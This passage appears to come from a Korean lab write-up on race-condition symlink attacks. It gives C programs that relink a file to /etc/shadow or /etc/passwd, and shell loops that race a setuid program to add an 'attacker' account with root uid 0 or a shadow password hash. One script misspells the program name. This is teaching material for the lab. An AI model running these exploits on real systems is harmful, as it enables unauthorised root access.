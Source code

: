  ```cat passwd```<br>
	symlink("/etc/shadow", argv[1]);
	return 0;
}
```
> /etc/shadow파일을 symbolic link의 destination로 설정한다.

#### _symbolic-link-B-passwd.c_
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char *argv[]){
	unlink(argv[1]);
	symlink("/etc/passwd", argv[1]);
	return 0;
}
```
> /etc/passwd파일을 symbolic link의 destination로 설정한다.

#### _exploit-B.sh_
```shell
old=`ls -l /etc/shadow`; new=`ls -l /etc/shadow`

while [ "$old" = "$new" ]
do
	rm -rf temp
	echo "This is a file that the user can overwrite" > temp
	printf "attacker:\$y\$j9T\$bkTnLvgAOz2Pl.PDD/p/m1\$w3EKQOi/wck44c1qntPgPKkfAxLblG1QdEK2YCtMmd0:19691:0:99999:7:::" | ./vunlerable-program temp & ./symbolic-link-B temp & new=`ls -l /etc/shadow`

done

rm -rf temp;

echo "STOP... The passwd file has been changed"
```
> PART A에서 사용했던 exploit.sh 코드와 유사하다.
attacker 사용자의 정보를 추가해야 하는데, 추가해야 하는 정보에 escape 문자가 포함되어 있기 때문에  **echo**가 아닌 **printf**를 사용한다. 

#### _exploit-B-passwd.sh_
```shell
old=`ls -l /etc/passwd`; new=`ls -l /etc/passwd`

while [ "$old" = "$new" ]
do
	rm -rf temp
	echo "This is a file that the user can overwrite" > temp
	echo "attacker:x:0:0:attacker,,,:/home/attacker:/bin/bash" | ./vulnerable-program temp & ./symbolic-link-B-passwd temp & new=`ls -l /etc/passwd`

done

rm -rf temp;

echo "STOP... The passwd file has been changed"
```
>PART A에서 사용했던 코드와 유사하다. 
관리자는 uid와 gid가 모두 0이기 때문에 attacker는 관리자 권한을 얻기 위해 uid와 gid를 모두 0으로 설정한다.
